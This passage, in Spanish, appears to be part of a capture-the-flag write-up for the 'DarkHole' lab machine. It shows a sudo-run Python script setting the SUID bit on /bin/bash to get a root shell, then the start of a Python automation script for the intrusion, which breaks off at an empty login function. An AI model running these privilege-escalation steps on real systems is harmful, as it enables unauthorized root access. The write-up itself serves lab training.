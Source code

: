 Para ello vamos a brir el archivo y utilizando la libraria os vamos a ejecutar un comando en el sistema, lo que podemos hacer es asignarle el privilegio SUID a la bash de root, para que podamos convertinos en él, como el archivo lo está ejecutando root haremos lo siguiente:

```py
import os

os.system("chmod +s /bin/bash")
```
Y lo guardamos.

Vamos a ejecutarlo:
```
bash-5.0$ sudo /usr/bin/python3 /home/john/file.py
```
Si vemos los permisos de /bin/bash:
```
bash-5.0$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Vemos que ahora es SUID, vamos a ejecutarlo:
```
bash-5.0$ bash -p
bash-5.0# whoami
root
```
```
bash-5.0# cat root.txt
DarkHole{You_Are_Legend}
```

¡Listo!, nos convertimos en root, hemos terminado la máquina.

Sin embargo, como un extra como a realizar la automatización de la intrusión en python.

En primer lugar, vamos a definir las variables que utilizaremos:

```py
ipHost= sys.argv[1]
ipVic= sys.argv[2]

urlIndex = f'http://{ipVic}/dashboard.php?id=2' # Modificar id si ya has creado usuarios.
urlAdmin = f'http://{ipVic}/dashboard.php?id=1'
urlRegister= f'http://{ipVic}/register.php'
urlLogin= f'http://{ipVic}/login.php'

usr= "testo"
passw= "testo"

s = requests.Session()
```

Tenemos la función que se encarga de registrar un usuario:

```py
def register():

    post_data = { 
        "username": f'{usr}',
        "email": f'{usr}%20{usr}',
        "password": f'{passw}'
     }

    r = s.post(urlRegister,data=post_data)
    print("[+] Usuario creado")
```
La siguiente de iniciar sesión:
```py
def login():

```